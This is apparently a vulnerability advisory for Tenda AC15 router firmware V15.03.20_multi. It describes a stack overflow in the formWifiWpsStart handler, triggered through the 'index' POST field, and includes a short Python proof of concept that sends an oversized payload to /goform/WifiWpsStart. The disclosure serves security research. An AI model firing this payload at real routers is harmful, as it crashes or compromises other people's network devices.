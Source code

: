 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `formWifiWpsStart` function. The `nptr` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240314181333792](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314181333792.png)

![image-20240314181250516](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314181250516.png)

![image-20240314181310033](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314181310033.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsStart"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314181344805](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314181344805.png)